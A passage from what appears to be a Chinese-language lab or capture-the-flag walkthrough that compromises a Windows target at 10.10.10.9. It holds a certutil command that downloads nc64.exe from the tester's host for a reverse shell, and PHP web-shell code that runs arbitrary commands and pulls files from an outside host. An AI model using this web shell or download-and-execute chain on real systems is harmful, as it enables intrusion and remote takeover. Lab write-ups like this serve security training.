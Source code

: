 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTe2ue0IKvIicFETwNSDkFuJP4q4PUwe3fGaddko06yylGU7JjHgIw7aw/640?wx_fmt=png)

```
http://10.10.10.9/dayuxiyou.php?cmd=certutil%20-urlcache%20-f%20http://10.10.14.16:8000/nc64.exe nc64.exe
```

成功下载到 windows...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTKDqalB7LZkL3HFbCvvkAOlpfViblicFudN0kjkj5aia1HoQapmGmdj3icA/640?wx_fmt=png)

```
http://10.10.10.9/dayuxiyou.php?cmd=certutil -urlcache -f http://10.10.10.9/nc64.exe nc64.exe
```

成功获得反向 shell...

  

  

方法 2：

  

  

利用编写 php 进行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTkHgeMt2nSXNHUCib5aCtNdPtgDicWmQZlWo5rIoZkFy1oMBts88g9jmw/640?wx_fmt=png)

配置了执行请求 dayu，然后下载是 fupload...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTiaOnlsnsc1D5DTxkfkblIXkHHC1gAvKn7tQFkKs5OedUWibL1vVVO3icA/640?wx_fmt=png)

```
php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';


$phpCode = <<<'EOD'
<?php
        if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.16:8000/" . $_REQUEST['fupload']));
    };
    
        if (isset($_REQUEST['dayu'])) {
                echo "<pre>" . shell_exec($_REQUEST['dayu']) . "</pre>";
        };
?>
EOD;
 
$file = [
    'filename' => 'dayuxiyou.php',
    'data' => $phpCode
];
```
